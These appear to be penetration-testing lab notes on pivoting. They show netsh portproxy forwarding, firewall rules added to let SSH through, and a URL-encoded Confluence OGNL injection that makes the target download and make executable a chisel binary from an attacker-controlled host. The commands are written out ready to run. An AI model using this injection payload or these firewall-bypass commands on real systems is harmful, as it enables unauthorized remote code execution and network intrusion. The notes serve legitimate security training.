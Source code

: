 ### Netsh

good for poking holes in firewall when we need port forwarding but firewall blocks it

Using this window, we can run Netsh. We'll instruct netsh interface to add a portproxy rule from an IPv4 listener that is forwarded to an IPv4 port (v4tov4). This will listen on port 2222 on the external-facing interface (listenport=2222 listenaddress=192.168.50.64) and forward packets to port 22 on PGDATABASE01 (connectport=22 connectaddress=10.4.50.215).

```
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.50.64 connectport=22 connectaddress=10.4.50.215
```

check listening ports with netstat
```
netstat -anp TCP | find "2222"
```

We can also confirm that the port forward is stored by issuing the show all command in the netsh interface portproxy subcontext.
```
netsh interface portproxy show all
```

if port is blocked by firewall we have to set up a rule to allow connections
```
netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.50.64 localport=2222 action=allow
```

ssh should work now
```
ssh database_admin@192.168.50.64 -p2222
```
can delete the rule afterwards
```
netsh advfirewall firewall delete rule name="port_forward_ssh_2222"
```
can also delete the portproxy
```
netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64
```
## Deep Packet Inspection

need chisel binary on client and server 
```
sudo cp $(which chisel) /var/www/html/
sudo systemctl start apache2
```

Next, we will build the wget command we want to run through the injection on CONFLUENCE01. This command will download the chisel binary to /tmp/chisel and make it executable:
```
wget 192.168.118.4/chisel -O /tmp/chisel && chmod +x /tmp/chisel
```
then use curl to execute command
```
curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.118.4/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/
```
